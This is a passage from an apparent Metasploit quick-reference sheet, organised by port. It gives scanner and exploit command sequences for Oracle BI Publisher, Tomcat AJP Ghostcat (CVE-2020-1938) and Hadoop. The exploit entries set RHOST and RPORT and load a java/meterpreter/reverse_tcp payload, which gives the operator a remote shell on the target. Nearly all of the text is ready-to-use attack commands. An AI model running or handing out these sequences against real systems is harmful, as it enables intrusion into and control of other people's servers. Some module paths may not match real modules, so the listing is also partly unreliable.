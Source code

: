 ### Auxiliary: Oracle BI Scanner
```bash
use auxiliary/scanner/http/oracle_bi
set RHOSTS [IP]
set RPORT 7676
```
**Purpose**: Identifies Oracle BI Publisher instances.

### Exploit: Oracle BI XDO File Upload
```bash
use exploit/multi/http/oracle_bi_xdo_upload
set RHOST [IP]
set RPORT 7676
set PAYLOAD java/meterpreter/reverse_tcp
```
**Purpose**: Exploits file upload vulnerability in Oracle BI Publisher.

---

## Port 8009 - AJP
**Service**: Apache JServ Protocol  
**Common services**: Tomcat AJP connector, Apache mod_jk

### Auxiliary: AJP Ghostcat Scanner (CVE-2020-1938)
```bash
use auxiliary/admin/http/tomcat_ghostcat
set RHOSTS [IP]
set RPORT 8009
```
**Purpose**: Scans for Ghostcat vulnerability.

### Exploit: AJP Ghostcat (CVE-2020-1938)
```bash
use exploit/linux/http/tomcat_ghostcat
set RHOST [IP]
set RPORT 8009
set PAYLOAD java/meterpreter/reverse_tcp
```
**Purpose**: Exploits file read/inclusion vulnerability in AJP connector.

---

## Port 8020, 8027, 8067 - Hadoop
**Service**: Apache Hadoop  
**Common services**: HDFS, YARN, MapReduce

### Auxiliary: Hadoop Information Disclosure
```bash
use auxiliary/scanner/http/hadoop_info
set RHOSTS [IP]
set RPORTS 8020,8027,8067,50070
```
**Purpose**: Gathers information from Hadoop clusters.
